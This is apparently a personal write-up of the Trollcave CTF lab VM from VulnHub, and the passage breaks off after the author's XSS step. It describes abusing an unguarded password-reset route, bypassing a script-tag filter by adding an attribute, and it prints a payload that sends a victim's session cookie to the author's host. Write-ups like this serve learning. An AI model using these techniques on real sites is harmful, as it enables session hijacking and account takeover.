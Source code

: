 # TrollCave

Trollcave is a VM available from [VulnHub](https://www.vulnhub.com/entry/trollcave-12,230/) - a  "vulnerable VM, in the tradition of Vulnhub and infosec wargames in general. You start with a virtual machine which you know nothing about – no usernames, no passwords, just what you can see on the network."

As with many traditional wargaming VMs, your objective is simple: gain access to the root account and retrieve a flag to prove you did it. Although it didn't offer a great many surprises, I found it pretty enjoyable. What follows is a write-up of my experience of trying to exploit this VM. It's not exhaustive documentation - from my understanding, there are more than a couple ways to go about exploiting this VM.

## Getting Started

After importing and setting up the VM on a host-only network and confirming that it had obtained an IP address properly, I was ready to begin poking at it. Knowing nothing about the system or what I was in for, I started with a simple netdiscover to find it on the local network, followed by a quick NMap scan to see which ports are open.

The results were pretty simple: two services accessible to the outside world on ports 22 and 80. After examining the OpenSSH running on port 22 and concluding that I wouldn't find an easy way in there, I proceeded to the webserver. It's a fairly simple community blogging platform running Rails, complete with the kind of humour we've come to expect from CTF challenges ("God himself cannot hack this website. - dragon, site admin"). There's a lot going on here, but very little is accessible without an account - which is problematic, since registration seems to be closed. The first step, then, is to get our hands on one.

## Escalating from Guest User

This challenge relies heavily on its hints, especially in the web app exploitation phase. Pretty much every stage includes some kind of hint in the form of a blog post. Some of them were red herrings (unless I missed something), but I'll cover that later. The interesting tidbit that leads you to your first win is a blog post about password resets by "coderguy", the site developer. He doesn't tell you exactly where to look for the password reset functionality - and there's no links to it anywhere. What he does say, however, is that there is a `password_resets` resource in use.

A little bit of intuition or an understanding of the way Ruby on Rails resources are set up is required here. The resource he's referring to is at `/password_resets/new`. Here we'll find a lovely unauthenticated form that lets us reset the password of any regular user - moderators and admins are out of our grasp, but this was enough for me to reset the password of 'xer', one of the regular members on the site.

## Escalating from Regular Member

While I was doing this challenge, I was very focussed on a particular comment made by King, the site superadmin:

`I promise to read every blog restricted to my access level, no matter how creepy. `

See, every user has the ability to create blogs, and every blog has an access level. Regular users only have access levels 0 and 1; which are "everyone can see it" and "only members can see it", respectively. King has an access level of 5, but a regular user can't create a blog at that level - not even by fiddling with the POST parameters, as I found out. In the end, making a level 5 blog and performing a client-side attack wasn't the answer, but it kept me going for a good while.

Either way, the next step for me was to get one of those fancy moderator accounts. Besides King, one other user had dropped a hint about monitoring the website - "cooldude89", a Moderator user. He had created a thread about politics and religion, and promised to constantly watch it to make sure no trolls derail the debate. Taking this as an invitation for a client side attack, I set about searching for XSS.

Although there is a rudimentary WAF in place, circumventing it didn't take much. The `<script>` tag is filtered out of any post or comment, but all you need to do is include an attribute (i.e. `<script id=test>`) and it will go through. After some tinkering, I deduced that the session cookie is not protected in any way, and that stealing it will let you hijack a user's session - even if they click the logout button. To that end, I crafted the following XSS injection:

`
<SCRIPT id=test>document.write('<img src="http://192.168.56.1/collect.gif?cookie=' + document.cookie + '" />')</SCRIPT>
`
